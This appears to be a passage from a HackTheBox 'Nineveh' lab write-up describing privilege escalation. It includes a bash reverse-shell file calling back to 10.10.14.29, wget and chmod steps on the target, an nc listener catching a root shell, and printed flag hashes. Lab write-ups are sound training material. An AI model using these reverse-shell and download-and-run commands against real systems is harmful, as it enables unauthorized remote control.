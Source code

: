 We can gain privilege escalation by creating a file called `update` that contains malicious code.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# mousepad update          
                                
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# cat update              
#!/bin/bash

bash -c 'exec bash -i &>/dev/tcp/10.10.14.29/9999 <&1'
```

```bash
www-data@nineveh:/tmp$ wget http://10.10.14.29/update
www-data@nineveh:/tmp$ chmod +x update
```

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# nc -nlvp 9999    
listening on [any] 9999 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.43] 50164
bash: cannot set terminal process group (21122): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
root
root@nineveh:/home# cat /home/amrois/user.txt
5739ccb3a42b270d86e50c877513187c
root@nineveh:/home# cat /root/root.txt
be1e57843d1f3e03b88d890411bcd901
```

